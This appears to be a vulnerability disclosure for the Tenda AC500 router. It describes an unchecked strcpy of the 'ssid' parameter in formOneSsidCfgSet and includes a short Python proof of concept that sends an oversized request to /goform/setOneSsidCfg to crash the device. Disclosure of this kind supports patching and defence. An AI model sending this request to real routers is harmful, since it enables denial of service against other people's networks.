# Tenda Router AC500 Vulnerability
This vulnerability lies in the `/goform/setOneSsidCfg` page which influences the lastest version of Tenda Router AC500. (The latest version is [AC500_V2.0.1.9(1307)](https://www.tenda.com.cn/download/detail-2470.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `formOneSsidCfgSet`.

In function `formOneSsidCfgSet` it reads user provided parameter `ssid` into src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/113_2/vlun.png)

So by requesting the page `/goform/setOneSsidCfg`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/setOneSsidCfg?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
